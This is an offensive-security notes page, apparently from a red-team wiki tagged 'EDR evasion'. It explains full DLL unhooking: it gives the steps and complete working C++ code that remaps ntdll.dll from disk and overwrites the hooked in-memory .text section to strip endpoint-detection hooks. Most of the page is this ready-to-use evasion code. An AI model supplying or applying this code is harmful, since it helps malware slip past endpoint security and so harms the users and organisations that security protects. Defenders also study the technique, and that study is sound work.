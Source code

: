 ```yaml
---
description: EDR evasion
---
```


# Full DLL Unhooking with C++

It's possibly to completely unhook any given DLL loaded in memory, which may help in evading some EDR solutions.

## Overview

The process for unhooking a DLL is as follows. Let's say that an ntdll.dll is hooked:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from freshly mapped dll to the virtual address \(found in step 3\) of the original \(hooked\) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

## Code

Below code fully unhooks the ntdll.dll although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");

    GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

    for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
        }
    }

    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}
```

